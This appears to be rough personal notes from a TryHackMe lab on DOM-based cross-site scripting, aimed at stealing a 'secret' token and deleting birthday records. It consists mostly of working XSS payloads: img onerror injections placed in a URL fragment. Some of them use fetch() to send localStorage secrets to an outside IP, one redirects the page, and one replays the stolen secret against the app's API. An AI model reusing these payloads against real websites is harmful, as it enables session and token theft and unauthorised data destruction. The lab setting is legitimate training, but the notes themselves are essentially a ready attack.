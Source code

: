 how to delete all birthdays
-> to get to know `?secret=` value 
-> using DOM xss ? 

https://realwebsite.com#<img src=1 onerror=alert(document.secret)></img>
=> checking the dom xss attack is working 
=> using this how to know the secret value ? 
document.secret? 

https://realwebsite.com#<img src=1 onerror="fetch('http://10.10.104.193:8000?secret=' + localStorage.getItem('secret'))"></img>

&gtimg src=1 onerror="fetch('http://10.10.104.193:8000' + localStorage.getItem('secret'))">

https://realwebsite.com#<img src = 1 onerror=alert(localStorage.getItem('secret'))>

https://realwebsite.com#<img src=1 onerror=alert(panda)></img>


&gtimg src=1 onerror="window.location='http://lists.tryhackme.loc:5001/ping'">

&gtimg src=1 onerror="fetch('http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=' + localStorage.getItem('secret'))">

http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=
